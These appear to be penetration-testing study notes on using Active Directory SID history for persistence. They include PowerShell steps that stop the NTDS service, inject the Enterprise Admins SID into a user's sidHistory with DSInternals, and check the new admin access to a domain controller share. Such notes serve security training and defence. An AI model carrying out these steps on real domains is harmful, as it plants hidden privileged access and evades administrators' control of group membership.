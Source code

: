 - [[SID]] is used to track the security principal for an account.
- SID history is used to track previous SIDs of the user (maybe while migrating the AD environment to a new one). This allows the user to access resource in the previous/last domain using the new account.
- SID history, by design, can story any SID, and doesn't need to be from other domain.
- With domain admin privileges, we can add/modify SIDs to the SID history property of a user object.
- When the user logs in, the SIDs are added to their access token, which determines the privilege of the user.
- This can be exploited for persistence as we can add the SID of an enterprise admin, as this would elevate the privilege of the user, even though we are not added to the Enterprise Admin group.
- SID property can fetched with AD module:
```powershell
Get-ADUser dr.dragon -Properties sidhistory
# empty by default
```
- Adding SID history using DSInternals
```powershell
# Fetch SID for Enterprise Admins
Get-ADGroup "Enterprise Admins" -Property SID
# Stoping the ntds service
Stop-Service -Name ntds -Force
# Adding the SID history
Add-ADDBSidHistory -SamAccountName "dr.dragon" -SidHistory 'ADMIN_SID' -DatabasePath C:\Windows\NTDS\ntds.dit
# Start the ntds service again
Start-Service -Name ntds
# Verify Enterprise Admin access
dir \\dc.mydomain.local\C$
```